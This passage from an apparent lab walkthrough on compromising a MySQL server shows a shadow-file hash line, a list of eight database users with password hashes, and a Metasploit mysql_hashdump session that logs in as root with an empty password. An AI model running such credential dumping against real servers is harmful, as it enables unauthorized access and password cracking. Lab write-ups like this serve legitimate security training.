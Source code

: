 ```bash
dbadmin:$6$vZ3Fv3x6$qdB/lOAC1EtlKEC2H8h5f7t33j65WDbHHV50jloFkxFBeQC8QkdbQKpHEp/BkVMQD2C2AFPkYW3.W7jMlMbl5.:17861:0:99999:7:::
 |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```

<details><summary>Flag:</summary></details>

> 9. How many database users are present on the database server? Lists their names and password hashes.

Answer:&#x20;

> `8` db users are present:
>
> `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
>
> `root:`
>
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
>
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
>
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
>
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
>
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
>
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

```bash
msf5 > use auxiliary/scanner/mysql/mysql_hashdump 
msf5 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target address range or CIDR identifier
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads
   USERNAME                   no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 192.15.56.3
RHOSTS => 192.15.56.3
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD ""
PASSWORD => 
msf5 auxiliary(scanner/mysql/mysql_hashdump) > exploit

[+] 192.15.56.3:3306      - Saving HashString as Loot: root:
[+] 192.15.56.3:3306      - Saving HashString as Loot: root:
[+] 192.15.56.3:3306      - Saving HashString as Loot: root:
[+] 192.15.56.3:3306      - Saving HashString as Loot: root:
```